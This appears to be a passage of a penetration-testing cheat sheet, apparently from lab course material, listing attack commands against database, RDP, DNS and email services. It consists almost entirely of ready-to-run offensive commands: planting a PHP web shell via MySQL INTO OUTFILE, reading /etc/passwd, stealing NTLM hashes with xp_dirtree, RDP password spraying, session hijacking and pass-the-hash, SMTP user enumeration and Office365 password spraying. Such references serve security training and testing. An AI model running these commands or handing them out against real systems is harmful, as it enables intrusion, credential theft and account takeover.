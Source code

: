 |`mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'`|Create a file using MySQL.|
|`mysql> show variables like "secure_file_priv";`|Check if the the secure file privileges are empty to read locally stored files on the system.|
|`sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`|Read local files in MSSQL.|
|`mysql> select LOAD_FILE("/etc/passwd");`|Read local files in MySQL.|
|`sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'`|Hash stealing using the `xp_dirtree` command in MSSQL.|
|`sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'`|Hash stealing using the `xp_subdirs` command in MSSQL.|
|`sqlcmd> SELECT srvname, isremote FROM sysservers`|Identify linked servers in MSSQL.|
|`sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]`|Identify the user and its privileges used for the remote connection in MSSQL.|

---

### Attacking RDP

|**Command**|**Description**|
|---|---|
|`crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`|Password spraying against the RDP service.|
|`hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`|Brute-forcing the RDP service.|
|`rdesktop -u admin -p password123 192.168.2.143`|Connect to the RDP service using `rdesktop` in Linux.|
|`tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`|Impersonate a user without its password.|
|`net start sessionhijack`|Execute the RDP session hijack.|
|`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`|Enable "Restricted Admin Mode" on the target Windows host.|
|`xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`|Use the Pass-The-Hash technique to login on the target host without a password.|

---

### Attacking DNS

|**Command**|**Description**|
|---|---|
|`dig AXFR @ns1.inlanefreight.htb inlanefreight.htb`|Perform an AXFR zone transfer attempt against a specific name server.|
|`subfinder -d inlanefreight.com -v`|Brute-forcing subdomains.|
|`host support.inlanefreight.com`|DNS lookup for the specified subdomain.|

---

### Attacking Email Services

|**Command**|**Description**|
|---|---|
|`host -t MX microsoft.com`|DNS lookup for mail servers for the specified domain.|
|`dig mx inlanefreight.com \| grep "MX" \| grep -v ";"`|DNS lookup for mail servers for the specified domain.|
|`host -t A mail1.inlanefreight.htb.`|DNS lookup of the IPv4 address for the specified subdomain.|
|`telnet 10.10.110.20 25`|Connect to the SMTP server.|
|`smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`|SMTP user enumeration using the RCPT command against the specified host.|
|`python3 o365spray.py --validate --domain msplaintext.xyz`|Verify the usage of Office365 for the specified domain.|
|`python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz`|Enumerate existing users using Office365 on the specified domain.|
|`python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz`|Password spraying against a list of users that use Office365 for the specified domain.|